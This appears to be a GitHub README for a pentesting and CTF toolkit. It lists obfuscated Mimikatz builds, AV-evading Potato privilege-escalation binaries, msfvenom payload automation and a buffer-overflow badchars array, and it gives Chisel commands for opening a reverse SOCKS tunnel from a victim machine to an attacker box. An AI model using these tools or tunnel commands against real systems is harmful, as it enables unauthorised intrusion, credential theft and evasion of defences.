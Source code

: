 # Kali Lootbox

This is a random collection of really handy scripts and binaries for use in pentesting or CTF. Some of the stuff I had to compile by hand because I couldn't find I couldn't find it anywhere else. Here's a list of the coolest stuff.

* Chisel Client Socks - Static binaries for x86/x64 win/lin. This is a really cool tunneling application, but never supported reverse dynamic port forwarding with SOCKS5. I found some code that enables this support, and compiled the static binaries for both OS and architectures. Usage is like

```
# on kali box:
./chisel server -p 8080 --reverse

# on victim machine
chisel client 10.10.14.3:8080 R:socks

# edit /etc/proxychains.conf and change bottom line to:
socks5 127.0.0.1 1080

```

**Mount Shared Folder in VMWare**
It is unbelievable to me that Shared Folders in VMWare don't automatically mount or work in any way on Kali without jumping through hoops. I wrote a quick script you can run to mount the folder.

**Mimikatz** 
* Old binaries that still work well on server 2019
* A custom compiled version with some obfuscation
* Powershell obfuscation script based on BlackHills Infosec article:
https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/

**Juicy and Rogue Potato Privesc Techniques**
* x86 version of Juicy Potato is nowhere to be found, adapted the project to work for a CTF that required it. 
* x64 version of Juicy that has some AV evasion applied. Please for love of god don't upload it VirusTotal

* RoguePotato - A newer adapter version of Juicy that works on the most modern systems

**Watson and Seatbelt**
* compile latest version of these awesome privesc tools

**Powershell scripts**
* A handful of random powershell scripts that query AD information. 
* A fix for Powercat that doesn't require you to hit the enter key of the victim side. Not sure what that is even a thing but it is.
* A runas script that works a lot like sudo for Windows. The example uses a user to launch netcat, but you can use any binary you want.

**Metasploit/MSFVenom Automation**
* Wrote some quick helper scripts to automatically create msfvenom payloads, and supplementary Metasploit resource to catch with multi/handler. Makes it really quick and easy to stage a shell and listener.

**Misc Python Scripts**
* The badchars array for buffer overflow
* A script for automating VRFY lookups with a text file of addressess
* A simple ping scanner